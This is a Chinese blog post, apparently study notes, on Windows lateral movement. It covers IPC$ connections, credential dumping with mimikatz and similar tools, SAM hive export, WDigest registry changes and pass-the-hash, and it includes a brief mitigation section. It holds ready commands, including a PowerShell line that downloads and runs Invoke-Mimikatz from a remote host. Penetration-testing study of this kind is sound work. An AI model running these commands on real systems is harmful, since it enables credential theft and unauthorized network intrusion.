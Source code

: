 ```yaml
---
layout:  post    # 使用的布局（不需要改）
title:   内网渗透之横向移动    # 标题 
subtitle:  内网渗透  #副标题
date:  2021-01-28  # 时间
author:  yanmie    # 作者
header-img: img/.jpg ##标签这篇文章标题背景图片
catalog: true      # 是否归档
tags:        
    - 内网渗透

---
```


## 一、常用 windwos 远程连接和相关命令

#### 1.1 IPC

IPC（Internet Process Connection）共享 “命令管道” 的资源，是为了实现进程间通信而开放的命令管道。

IPC 可以通过验证用户名和密码获得相应的权限，通常在远程管理计算机和查看计算机的共享资源时使用。

建立 IPC$ .

```
net use \\ip\ipc$ "password" /user:administrator
```

查看当前连接

```
net user
```

IPC$ 利用条件

* 开启 139 ，445 端口
* 管理员开启默认共享（net share 查看）

#### 1.2 常用命令

```
dir
tasklist
at        # 计划任务
net time \\ip      # 查看目标系统时间
copy calc.exe \\ip\c$     # 文件复制
at \\ip 12:11 c:\calc.exe   # 定时任务
at \\ip id /delete
schtasks        # 高版本系统中代替 at
```

## 二、windwos系统散列值

#### 2.1 LM Hash 和 NTLM Hash

Windows系统下的hash密码格式为：用户名称:RID:LM-HASH值:NT-HASH值，

破解网站：

```
https://www.objectif-securite.ch/en/ophcrack
```

#### 2.2 单机密码抓取

system权限才能抓取散列值或明文密码。

本地用户、散列值、其他安全验证信息都保存在`C:\Windows\System32\config\SAM ` 文件中。该文件是被锁定的，不允许被复制。

1. GetPass（需 system 权限）

   getpass这款软件，在2012年被开发出来，可以直接从 lsass.exe 里获取windows处于active状态账号明文密码。比破解SAM更快，更准。

   ![image-20210128125646640](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210128125646640.png)

2. pwdump7 (管理员权限)

   可以得到系统中所有账户的 hash 。这玩意抓的有点出入呀。

   ![image-20210128130354469](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210128130354469.png)

3. QuarksPwDump

   是一款比较常用的hasn dump工具，使用QuarksPwDump –dhl获取本地所有账户的hash值。

   win2003

   ![image-20210128131107374](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210128131107374.png)

   win7:

   ![image-20210128131237638](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210128131237638.png)
   
4. wce

   Wce在不指定任何参数时默认输出密码的hash值，使用wce –w 列出明文密码

   win7:

   ![image-20210128131845141](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210128131845141.png)

5. 通过 SAM 和 system 文件抓取密码

   无工具导出,将注册表中的 SAM,System文件导出：

   ```
   reg save hklm\sam sam.hive
   reg save hklm\system system.hive
   ```

   也可通过 `SAMCopyer` 拷贝。

   读取文件,双击 mimitakz 软件之后

   ```
   lsadump::sam /sam:sam.hive /system:system.hive
   ```
   
   ![image-20210129090853127](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210129090853127.png)
   
   mimikatz 直接读本地 sam 文件，导出 hash 信息。
   
   ```
   privilege::debug       # 提升权限
   token::elevate         # 将权限提升至 system
   lsadump::sam           # 读取本地 sam 文件
   ```
   
   
   
   ![image-20210129092507308](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210129092507308.png)
   
   mimikatz 在线读取 sam 文件
   
   ```
   mimikatz "privilege::debug" "log" "sekurlsa::logonpasswords
   ```
   
   powershell 远程加载
   
   ```
   powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.101/Invoke-Mimikatz.ps1');Invoke-Mimikatz
   ```
   
6. 注册表开启 wdigest Auth 获取明文密码

   开启

   ```
   reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
   ```

   关闭

   ```
   reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
   ```

#### 2.3 防范

* 设置win2012R2 功能级别，将用户放入“受保护的用户” 的用户组。
* 安装 KB2871997
* 通过修改注册表禁止在内存中存储明文密码
* mimikatz 需要 debug 权限，所以可以将 debug 权限的本地管理员从 Administrators 组中删除

## 三、哈希传递

#### 3.1 哈希传递概念

在域环境中，用户登录计算机使用的大都是域账号，大量计算机在安装时会使用相同的本地管理员账号和密码，因此，如果计算机的本地管理员账号和密码也是相同的，攻击者就能使用哈希传递攻击的方法登录内网中的其他计算机。

通过哈希传递，不需要花时间破解密码散列值。

#### 3.2 NTLM hash传递

管理员身份运行

```
mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:a.com /ntlm:获得的NTLMhash值
```

#### 3.3 AES-256秘钥 hash 传递

安装补丁KB2871997后管理员身份运行

```cmd
mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:a.com /aes256:04e2ac14af8a27a9c3970a5513c0c167dd20bb039eb31fbc9a401550aea5299d
```

> 该补丁使本地管理员无法对远程主机使用PsExec,WMI,smbexec,schtasks,at与文件共享，且除SID为500的账号（Administrator）外其余账号无法使用哈希传递横向移动

## 四、票据传递

使用 mimikatz 哈希传递功能，必须具有本地管理员权限。

而 票据传递 不需要管理员就可以。

https://wh0ale.github.io/2018/12/25/2018-12-25-%E5%9F%9F%E6%B8%97%E9%80%8F%E4%B9%8B%E7%A5%A8%E6%8D%AE/

## 五、Psexec 的使用

## 六、永恒之蓝



   

   

